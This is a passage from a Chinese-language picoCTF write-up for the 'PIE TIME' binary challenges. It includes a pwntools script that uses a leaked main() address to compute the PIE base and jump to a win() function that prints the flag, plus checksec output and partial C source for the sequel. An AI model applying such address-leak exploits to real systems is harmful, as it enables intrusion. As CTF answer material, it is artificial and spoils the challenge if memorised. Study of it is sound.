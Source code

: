 在輸入前會給 `main` 函數該次執行的 address
```c
...
printf("Address of main: %p\n", &main);
...
```

減去 `main` 的 offset 後就可以算出 `PIE` 的 base，之後加上目標函數的 offset 就可以取得 flag

```python
from pwn import *

# p = process('./vuln')
p = remote("rescued-float.picoctf.net", 54511)

main_addr = 0x0000133d
win_addr = 0x000012a7

p.recvuntil(B": ")
pie = int(p.recvline(keepends=False).decode(), 16) - main_addr

p.sendlineafter(b"ex => 0x12345: ", hex(win_addr+pie).encode())

p.recvlines(2)
flag = p.recvline().decode()
p.close()

print(flag)
```

## PIE TIME 2
和上一題一樣是考 `PIE` 的題目，保護機制
```bash
$ checksec vuln
[*] '/home/kali/CTF/pwn/PIE_TIME_2/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

和上一題一樣有目標函數
```c
int win() {

   FILE *fptr;
   char c;
   printf("You won!\n");

   // Open file
   fptr = fopen("flag.txt", "r");
   if (fptr == NULL)
   {
         printf("Cannot open file.\n")
         exit(0);
   }

   // Read contents from file
   c = fgetc(fptr);
   while (c != EOF)
   {
         printf ("%c", c);
```
